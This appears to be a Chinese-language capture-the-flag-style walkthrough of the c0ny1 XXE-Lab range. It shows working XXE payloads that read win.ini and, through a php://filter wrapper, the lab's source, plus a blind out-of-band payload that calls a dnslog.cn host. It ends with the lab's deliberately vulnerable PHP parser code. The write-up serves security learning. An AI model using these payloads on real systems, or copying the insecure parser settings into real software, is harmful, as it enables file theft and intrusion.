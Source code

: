 # XXE-Lab靶场全解

项目地址：[c0ny1/xxe-lab: 一个包含php,java,python,C#等各种语言版本的XXE漏洞Demo](https://github.com/c0ny1/xxe-lab)

靶场搭建简单，不表



## 前情提要

XXE(XML EXternal Entity Injection)，XML外部实体注入

利用外部实体声明部分的“SYSTEM”关键词导致XML解析器可以从本地文件或者远程URI中读取受保护的数据。







点进去一看就是一个登录页面，随便输入`admin/password`，抓包查看

![image-20250224152554317](../../_media/image-20250224152554317.png)



看得出来post数据是以xml的形式传递给`/deLogin.php`进行解析处理的



## 文件读取

### 绝对路径读取

那我们丢`Repeater`里尝试一下



```xml
<?xml version="1.0"?>
<!DOCTYPE ANY [
     <!ENTITY xxe SYSTEM "file:///c:/windows/win.ini"> ]>
<user><username>admin&xxe;</username><password>password</password></user>
```



![image-20250224153715463](../../_media/image-20250224153715463.png)

可以看出来，成功进行了XXE注入



### 相对路径读取

试着读取`xxe-lab-master`的`doLogin.php`文件，相对路径读取也是可以的：

```
PHP://filter/read=convert.base64-encode/resource=doLogin.php
```



```
<?xml version="1.0"?>
<!DOCTYPE ANY [
     <!ENTITY xxe SYSTEM "PHP://filter/read=convert.base64-encode/resource=doLogin.php"> ]>
<user><username>admin&xxe;</username><password>password</password></user>
```



![image-20250224154701706](../../_media/image-20250224154701706.png)



## 外带测试无回显

假设没有回显，XXE可以访问外部的url

DNSLog.cn平台

[DNSLog Platform](http://www.dnslog.cn/)

`Get SubDomain`之后将域名替换掉

```xml
<?xml version="1.0" ?>
<!DOCTYPE test [
 <!ENTITY % file SYSTEM "http://saqnft.dnslog.cn">
 %file;
]>
<user><username>admin&send;</username><password>password</password></user>
```

页面返回无回显，但是DNSLog的记录中显示已经存在。

![image-20250224160330135](../../_media/image-20250224160330135.png)



![image-20250224160857670](../../_media/image-20250224160857670.png)





## 源码解读

```php
<?php
/**
* autor: c0ny1
* date: 2018-2-7
*/

$USERNAME = 'admin'; //账号
$PASSWORD = 'admin'; //密码
$result = null;

libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');

try{
	$dom = new DOMDocument();
	$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
	$creds = simplexml_import_dom($dom);

	$username = $creds->username;
	$password = $creds->password;

	if($username == $USERNAME && $password == $PASSWORD){
		$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",1,$username);
	}else{
		$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",0,$username);
	}	
}catch(Exception $e){
	$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",3,$e->getMessage());
}

header('Content-Type: text/html; charset=utf-8');
echo $result;
?>
```

